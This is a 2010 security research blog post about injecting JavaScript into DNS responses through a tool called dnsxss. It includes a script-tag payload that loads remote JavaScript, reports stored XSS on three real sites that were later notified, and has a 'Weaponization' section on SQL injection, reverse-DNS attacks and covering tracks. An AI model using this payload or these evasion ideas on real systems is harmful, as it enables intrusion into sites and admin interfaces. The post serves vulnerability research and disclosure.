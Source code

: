 ```yaml
---
id: 433
title: 'Stuffing Javascript into DNS names'
date: '2010-04-20T10:36:54-05:00'
author: 'Ron Bowes'
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=433'
permalink: /2010/stuffing-javascript-into-dns-names
categories:
    - DNS
    - Hacking
    - Tools
---
```


Greetings! 

Today seemed like a fun day to write about a really cool vector for cross-site scripting I found. In my testing, this attack is pretty specific and, in some ways, useless, but I strongly suspect that, with resources I don't have access to, this can trigger stored cross-site scripting in some pretty nasty places. But I'll get to that! 

Interestingly enough, between the time that I wrote this blog/tool and published it, nCircle researchers <a href='http://www.darkreading.com/vulnerability_management/security/app-security/showArticle.jhtml?articleID=224201569'>have said almost the same thing</a> (<a href='http://blog.ncircle.com/blogs/vert/miXSS%20Whitepaper.pdf'>paper</a> (pdf)). The major difference is, I released a tool to do it and demonstrate actual examples. 
<!--more-->
<h2>dnsxss</h2>
If you've installed <a href='/wiki/index.php/Nbtool'>nbtool</a>, you may have noticed that, among other programs it comes with, one of them is called <a href='/wiki/index.php/Dnsxss'>dnsxss</a>. Take a look at the wiki page for more information, but what it does is, essentially, respond to DNS requests for CNAME, MX, TXT, and NS records with Javascript code. Unless you want some specific code, all you have to do is run it:
<pre># dnsxss
Listening for requests on 0.0.0.0:53
Will response to queries with: 
&lt;script/src='http://www.skullsecurity.org/test-js.js'&gt;&lt;/script&gt;
</pre>

Pass -h or --help for a list of arguments. 

Now, an observant reader will realize that this isn't valid HTML. Unfortunately, as far as I can tell, there's no way to send a space through DNS, so you have to come up with some space-free code. The best I could find was replacing spaces with a '/', which will work on Firefox but not IE (I haven't tested anything else). If anybody can think of a better way to write HTML without spaces, let me know. The next best solution is using the TXT query, which DOES allow spaces. dnsxss will reply to TXT queries with well formed Javascript. 

For what it's worth, dnsxss will answer A or AAAA requests with localhost (127.0.0.1 or ::1) -- if somebody does a lookup, they'll get an odd answer that won't immediately lead back to you. 

<h2>Let's break stuff!</h2>
So, what can you do with this?

Well, fortunately (or unfortunately? depends who you are), most sites don't echo back DNS records. But, some do. I picked the first three sites from a Google query and tested them out. All three were vulnerable. And I very much doubt that any programmers even *consider* filtering DNS responses. I mean, who expects DNS responses to contain HTML? 

And, furthermore, if I can sneak HTML code into pretty much any site that looks up DNS names due to lack of filtering, how about SQL injection? If the response is inserted into the database without filtering for SQL characters, which I would bet they are on at least some sites, you now have an avenue for SQL injection! And, better yet, there's a decent chance that the requests won't be logged because a) it's coming through a backchannel so it's not going to be in their Web server logs, b) the statements containing SQL injection won't be inserted to your logging table (since they wouldn't be valid queries), and c) you can turn off the DNS server whenever you want, and no trace will be left that you were ever doing it (except short-lived caches). 

As I mentioned earlier, I took the first three sites from a google query I crafted, and all three were vulnerable. I emailed the administrators of all three sites, and two of them replied thanking me. Both told me that it was a really interesting vector, and that they would fix their sites as soon as possible. The third I haven't heard back from. But the point is, on three random sites, none had even considered implementing any defenses.

Let's take a look at the examples! But first, here are some notes on them:
<ul>
<li>The examples use skullseclabs.org, which is the domain I use for all my testing -- if you plan on testing these yourself, you'll have to register your own domain</li>
<li>The examples use "/* */" to conceal the space, but I realized later that a single "/" works just as well</li>
</ul>

So, without further ado, here are some screenshots of the sites. I anonymized them a little, though a clever attacker could likely Google hack them. 
<h3>Site 1</h3>
The form:
<img src='/blogdata/dnsxss-site1-1.png'>

The result:
<img src='/blogdata/dnsxss-site1-2.png'>

The source:
<img src='/blogdata/dnsxss-site1-3.png'>

<h3>Site 2</h3>
The form:
<img src='/blogdata/dnsxss-site2-1.png'>

The result:
<img src='/blogdata/dnsxss-site2-2.png'>

The source:
<img src='/blogdata/dnsxss-site2-3.png'>

<h3>Site 3</h3>
The form:
<img src='/blogdata/dnsxss-site3-1.png'>

The result:
<img src='/blogdata/dnsxss-site3-2.png'>

The source:
<img src='/blogdata/dnsxss-site3-3.png'>

<h3>So there we go...</h3>
Three sites, none of which filter out my cross-site scripting attempts. Fun!

<h2>Weaponization</h2>
The problem is, this only affects a small percentage of sites -- those that will look up domains and display them for you. How can this be used against more targets?

Well, I have two ideas:
<ol>
<li>As I mentioned earlier, I'd bet money that there are other forms of attacks through these avenues -- I'd be surprised if SQL injection didn't exist</li>
<li>Can you stuff javascript into <strong>reverse</strong> DNS entries?</li>
</ol>

The second point, I suspect, is where we're going to have fun. I can think of countless security devices, from firewalls to vulnerability management tools to proxy servers, with Web interfaces that display reverse DNS records. Not to mention tools where administrators are shown reverse lookups -- forums, for example. Another avenue is logfiles, which are normally visible to administrators. 

In all of these cases, if you can stuff Javascript into reverse DNS lookups, you will likely find some very interesting vulnerabilities. Plus, you can instantly see when somebody hits one, and, more often than not, you can clean up your tracks quite well. 

I don't have access to any domains where I control the reverse DNS records, but if anybody does I'd love to test this out! 
